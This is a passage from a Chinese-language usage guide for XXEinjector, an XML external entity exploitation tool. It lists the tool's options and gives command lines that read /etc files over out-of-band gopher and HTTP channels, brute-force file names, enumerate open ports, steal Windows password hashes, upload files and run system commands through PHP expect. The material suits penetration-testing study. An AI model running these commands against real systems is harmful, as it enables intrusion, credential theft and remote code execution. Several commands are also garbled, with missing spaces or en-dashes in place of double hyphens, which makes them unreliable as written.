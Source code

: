 ```bash
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport 		Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  	设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     		该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     		跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。
```
<a name="qBB0i"></a>
#### 3、工具使用
枚举HTTPS应用程序中的/etc目录：
```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
```
使用gopher（OOB方法）枚举/etc目录：
```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
```
二次漏洞利用：
```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
```
使用HTTP带外方法和netdoc协议对文件进行爆破攻击：
```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
```
通过直接性漏洞利用方式进行资源枚举：
```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
```
枚举未过滤的端口：
```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
```
窃取Windows哈希：
```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
```
使用Java jar上传文件：
```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
```
使用PHP expect执行系统指令：
```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
```
测试XSLT注入：
```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
```
记录请求信息：
```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt
```

